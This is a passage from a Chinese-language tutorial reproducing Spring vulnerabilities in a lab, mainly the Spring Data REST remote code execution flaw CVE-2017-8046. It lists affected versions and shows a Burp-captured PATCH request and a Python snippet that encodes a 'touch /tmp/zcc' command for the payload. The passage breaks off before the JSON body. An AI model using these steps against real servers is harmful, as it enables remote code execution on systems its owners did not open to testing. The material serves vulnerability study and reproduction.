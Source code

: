 官方已经发布了新版本，请受影响的用户及时更新升级至最新的版本来防护该漏洞。官方同时建议用户应该更改数据绑定的默认设置来确保提交的表单信息符合要求来规避类似恶意行为。参考链接:

>  **https://pivotal.io/security/cve-2017-4971**

对于这个漏洞的底层分析文章，大家可以看看这篇：https://paper.seebug.org/322/

### 3.Spring Data Rest远程命令执行命令(CVE-2017-8046)

#### 漏洞简介

Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-
rest服务器，通过构造好的JSON数据来执行任意Java代码。

#### 影响版本

    
    
    Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3  
    Spring Boot version < 2.0.0M4  
    Spring Data release trains < Kay-RC3  
    

#### 漏洞验证

开启漏洞环境：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083049.png)image-20210829212225888![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083050.png)image-20210829212307609

看到 json格式的返回值，说明这是一个 Restful风格的API服务器。

访问如下url，如果有下面回显，则说明存在该漏洞：

    
    
    http://192.168.173.144:8080/customers/1  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083051.png)image-20210829212445500

#### 漏洞复现

bp抓包，并且使用PATCH请求来修改：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083052.png)image-20210829213412995

创建文件touch /tmp/zcc的poc，需要对其进行十进制编码：

    
    
    ",".join(map(str, (map(ord,"touch /tmp/zcc"))))  
      
    '116,111,117,99,104,32,47,116,109,112,47,122,99,99'  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083054.png)image-20210829213806596

将该编码写入poc，放入请求包，注意json格式的poc上面留一个空行，Content-Type: 为application/json-patch+json

    
    
    PATCH /customers/1 HTTP/1.1  
    Host: localhost:8080  
    Accept-Encoding: gzip, deflate  
    Accept: */*  
    Accept-Language: en  
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)  
    Connection: close  
    Content-Type: application/json-patch+json  
    Content-Length: 201  
      